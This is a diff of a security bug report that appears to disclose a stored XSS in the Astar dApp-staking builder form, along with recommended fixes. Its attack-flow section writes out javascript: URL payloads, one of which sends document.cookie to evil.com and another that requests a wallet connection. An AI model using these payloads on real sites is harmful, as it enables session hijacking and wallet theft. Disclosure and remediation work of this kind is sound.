

Before and after one commit to Zerxxz/Astar-bug-report, a Markdown page: REPORT.md, the part around one of its changes. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/REPORT.md
+++ b/REPORT.md
@@ -113,24 +150,42 @@ Open `POC.html` in a browser for a visual demonstration with live validation tes
 ## 5. Attack Flow
 
 ```
-1. Attacker registers a DApp on astar.network/dapp-staking
-2. Fills "Builder" form with javascript: URLs:
-   - GitHub:   javascript:alert(document.domain)
-   - Twitter:  javascript:void(fetch('https://evil.com/?c='+document.cookie))
-   - LinkedIn: javascript:void(ethereum.request({method:'eth_requestAccounts'}).then(...))
-3. isUrlValid("javascript:alert(1)") → TRUE  (no protocol whitelist)
-4. Payload stored on-chain / in backend — PERMANENT
-5. Victim visits the attacker's public DApp page
-6. Social links rendered as clickable icons (GitHub, Twitter, LinkedIn)
-7. Victim clicks any social icon → XSS executes
-8. Result: session hijacked, wallet drained, credentials stolen
+[Step 1] Attacker registers DApp on astar.network/dapp-staking
+         → Navigates to DApp Builder registration form
+
+[Step 2] Attacker fills social URL fields with javascript: URLs:
+         GitHub:   javascript:alert(document.cookie)
+         Twitter:  javascript:void(fetch('https://evil.com/?c='+document.cookie))
+         LinkedIn: javascript:void(ethereum.request({method:'eth_requestAccounts'}).then(...))
+
+[Step 3] isUrlValid() called — NO protocol whitelist in source code
+         → In validator.js < v13: javascript: URL PASSES validation
+         → Payload bypasses validation
+
+[Step 4] Payload stored on-chain / in backend — PERMANENT
+         → No re-exploitation needed
+
+[Step 5] Builders.vue renders:
+         <a :href="team.githubAccountUrl">
+         → If payload = "javascript:alert(1)", output is:
+         <a href="javascript:alert(1)">GitHub</a>
+
+[Step 6] Victim visits the attacker's public DApp page
+         → Sees GitHub, Twitter, LinkedIn social icons
+
+[Step 7] Victim clicks any social link
+         → Browser executes: javascript:alert(document.cookie)
+         → Cookie sent to https://evil.com
+         → OR: eth_requestAccounts prompt → wallet connected to attacker
+
+[Impact] CRITICAL — Stored XSS with Web3 wallet drain potential
 ```
 
 ---
 
 ## 6. Recommended Fix
 
-### Fix 1: Protocol Whitelist (Minimal Change, Primary)
+### Fix 1: Protocol Whitelist (Mandatory — per OWASP)
 
 ```typescript
 // src/components/common/Validators.ts
@@ -146,6 +201,11 @@ export const isUrlValid = (url: string): boolean =>
     : false;
 ```
 
+**Why this fix is mandatory:**
+- OWASP XSS Prevention Cheatsheet Rule #1: "ALWAYS whitelist allowed schemes"
+- The current code **relies on implicit defaults** — if validator.js changes, vulnerability reactivates
+- Explicit allowlist prevents future regression
+
 ### Fix 2: Server-Side Sanitization (Defense in Depth)
 
 ```typescript
@@ -158,9 +218,9 @@ export function sanitizeBuilderUrl(url: string): string | null {
     require_protocol: true,
     require_tld: true,
   })) {
-    return null;
+    return null; // Reject
   }
-  return validator.escape(url);
+  return validator.escape(url); // Double-layer sanitization
 }
 ```
 
````
Also changed, not shown: other parts of REPORT.md (+81 -40 lines).
